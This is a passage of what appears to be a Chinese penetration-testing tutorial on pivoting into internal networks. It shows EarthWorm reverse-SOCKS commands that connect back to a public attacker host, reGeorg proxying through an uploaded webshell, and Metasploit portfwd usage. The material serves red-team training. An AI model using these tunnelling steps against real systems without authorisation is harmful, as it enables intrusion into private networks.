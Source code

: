 * 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的8888端口

```
/ew -s rssocks -d {A主机IP地址} -e {A主机端口} 
```


## 0x06 reGeorg

### 简介

Git地址：https://github.com/sensepost/reGeorg.git

reGeorg是一个Python2.7环境下开发的一款结合Webshell进行端口复用的工具，能够将数据通过在本地建立的Socks服务转发到内网环境。

说明：reGeorg需要配合Webshell使用，并且需要一个良好的网络状况。Python环境必须安装Urlib3

### 创建Socks5代理

> 网络情况：A只能连接B主机的80端口，A无法与C进行通信，且B无法与外网进行通信

首先要选择一个适合目标服务器脚本环境的Webshell脚本，将该脚本上传到服务器上，记录下地址

在浏览器中访问会出现很熟悉的 Georg says, 'All seems fine',说明是正常的

例如Webshell地址如：http://10.10.18.1/shell.jsp

进入reGeorg目录，执行`python reGeorgSocksProxy.py -u {Webshell地址} -p {本地Socks5服务监听的端口}`


最后会输出`Starting socks Server [127.0.0.1:端口]`，此时就可以使用浏览器设置Socks代理访问内网主机的端口了。



## 0x07 Metasploit Portfwd

### 简介

Metasploit中的Portfwd是集成于Metpreter会话中的一个后渗透模块，多用于将内网某个主机的端口转发到本地。

### 内网端口转发

> 网络状况：A已经控制了B主机，但是无法与C主机进行通信

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  转发: 本地监听地址  反向: 本地主机连接到某个地址
    -R        表示正向反向端口
    -h        帮助信息
    -i <opt>  端口转发条目的索引与交互（请参阅“列表”命令）
    -l <opt>  转发：本地端口收听  反向：本地端口连接
    -p <opt>  转发：远程端口连接  反向：远程端口监听
    -r <opt>  转发：连接到远程主机
```


[0x01]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-03/0x01.png